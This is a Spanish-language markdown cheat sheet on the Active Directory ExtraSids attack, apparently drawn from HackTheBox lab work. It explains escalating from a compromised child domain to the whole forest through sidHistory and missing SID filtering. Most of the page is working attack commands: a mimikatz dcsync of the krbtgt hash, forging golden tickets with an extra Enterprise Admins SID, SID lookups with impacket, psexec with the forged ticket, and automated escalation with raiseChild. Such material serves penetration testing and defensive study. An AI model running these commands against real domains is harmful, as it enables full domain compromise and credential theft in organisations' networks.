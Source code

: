 # ExtraSids Attack - Mimikatz

## Explicación rápida

- Este ataque permite comprometer a un dominio padre desde que el dominio hijo ya fue comprometido bajo el mismo **AD FOREST**.
- ![](https://s38063.pcdn.co/wp-content/uploads/2022/06/Active-Directory-forest-.jpg.optimal.jpg)
- Este ataque se basa en la explotación de propiedad sidHistory y la falta de protección de filtrado de SIDs (Sid filtering) entre dominios dentro de un AD FOREST.
- Para hacer este ataque se necesitan las siguientes condiciones:
    - HASH NT del KRBTGT del dominio hijo: Hay que generar un Golden Ticket.
    - SID del dominio fijo.
    - Nombre de un usuero objetivo en el dominio hijo.
    - FQDN del dominio hijo.
    - SID del grupo Enterprise Admins del dominio padre. 
- Debido a la ausencia de SID filtering, cuando este usuario autenticado con un SID modificado accede al dominio padre, est ratado como si fuera un miembro del grupo Admins, así dandole privilegios sobre todo el AD FOREST.

## Creación del golden ticket con mimikatz
- [Golden Ticket Attack más info](./goldenTicketAttack.md)
- `mimikatz # lsadump::dcsync /user:DOMAIN\krbtgt`
- `kerberos::golden /user:hacker /domain:DOMAIN.LOCAL /sid:SID-FOR-THE-CHILD-DOMAIN /krbtgt:9d765b482771505cbe97411065964d5f /sids:ENTERPRISE-ADMIN-SID /ptt`

## Obtener SID de enterprise admin
- `Get-DomainGroup -Domain DOMAIN.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`

## Mediante Linux

### Conseguir el SID con impacket
- `impacket-lookupsid DOMAIN.LOCAL/USER@DC-IP`
- Ejemplo: `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` 
    - `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`

## Golden ticket con impacket
- `impacket-ticketer -nthash NT-HASH -domain DOMAIN.LOCAL -domain-sid DOMAIN-SID -extra-sid EXTRA-SID hacker`
- Exportamos la variable del ticket kerberos: `export KRB5CCNAME=hacker.ccache`
- Utilizamos psexec de impacket para entrar con este ticket `impacket-psexec DOMAIN.LOCAL/hacker@DC01.DOMAIN.LOCAL -k -no-pass -target-ip DC-IP`

## Automatizar este proceso con raiseChild de impacket
- Esta herramienta automatiza la escalación de dominio hijo a padre, necesitamos especificar el dominio objetivo con su DC, y credenciales en el dominio hijo. El script hará lo demás.
- `impacket-raiseChild -target-exec DC-IP CHILD.DOMAIN.LOCAL/user`